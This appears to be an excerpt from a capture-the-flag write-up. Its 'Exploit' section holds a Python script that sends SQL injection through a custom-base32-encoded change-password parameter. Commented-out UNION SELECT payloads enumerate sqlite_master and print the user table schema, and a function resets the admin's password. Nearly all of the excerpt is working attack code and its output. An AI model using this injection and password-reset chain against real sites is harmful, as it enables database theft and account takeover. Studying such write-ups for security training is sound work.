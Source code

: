 ## Exploit  

Here is my script to retrieve the admin's email and ID and change their password.  

```py
import requests
import re

alphabet = "Abcd3fgh1jkImn0pqrs7uvwxyz985462"

BASE_URL = "http://instance"


def to_custom_base32(input):
    to_bin = ""
    for i in input:
        to_bin += format(ord(i), "#010b")[2:]
    out = ""
    for chunk in [to_bin[i : i + 5] for i in range(0, len(to_bin), 5)]:
        index = int(chunk, 2)
        out += alphabet[index]
    return out


def send_payload(payload):
    r = requests.get(f"{BASE_URL}/change-password?h={to_custom_base32(payload)}")
    if r.status_code == 200:
        m = re.search(r"password for(.*?)<input", r.text, re.DOTALL)
        return m.group(1).strip()
    else:
        return f"Error {r.status_code}"


def send_sqli(payload):
    return send_payload(f"fake@mail.fr|{payload}|PADDING")


def change_password(mail, id, new_password):
    r = requests.post(
        f"{BASE_URL}/api/change-password?h={to_custom_base32(f'{mail}|{id}|PADDING')}",
        json={"password": new_password},
    )
    if r.status_code == 200:
        return True
    else:
        return f"Error {r.status_code}"


# print(send_sqli("111111' union select group_concat(tbl_name) FROM sqlite_master WHERE type='table' --"))
# user

# print(send_sqli("111111' union select sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='user' --"))
# CREATE TABLE user (
#         id INTEGER NOT NULL,
#         username VARCHAR(100) NOT NULL,
#         mail VARCHAR(100) NOT NULL,
#         password VARCHAR NOT NULL,
#         role VARCHAR NOT NULL,
#         PRIMARY KEY (id),
#         UNIQUE (mail)
# )

```